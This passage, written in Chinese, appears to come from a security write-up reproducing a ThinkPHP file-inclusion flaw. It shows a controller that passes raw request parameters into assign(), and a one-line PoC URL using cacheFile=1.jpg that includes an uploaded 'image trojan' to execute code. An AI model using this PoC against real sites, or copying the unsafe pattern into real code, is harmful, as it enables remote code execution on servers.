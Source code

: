 ```
class Index

{

     public function index()

    {

        $this->assign(request()->get());

        return $this->fetch(); // 当前模块/默认视图目录/当前控制器（小写）/当前操作（小写）.html

    }

}
```

创建 application/index/view/index/index.html 文件，内容随意（没有这个模板文件的话，在渲染时程序会报错），并将图片马 1.jpg 放至 public 目录下（模拟上传图片操作）。

  **Poc/exp:**

```
/index.php/index/index/index?cacheFile=1.jpg
```

[![](http://zone.secevery.com/uploads/article/20191220/d64a5375a5cd1a80f664f314ae7984aa.png)](http://zone.secevery.com/uploads/article/20191220/d64a5375a5cd1a80f664f314ae7984aa.png)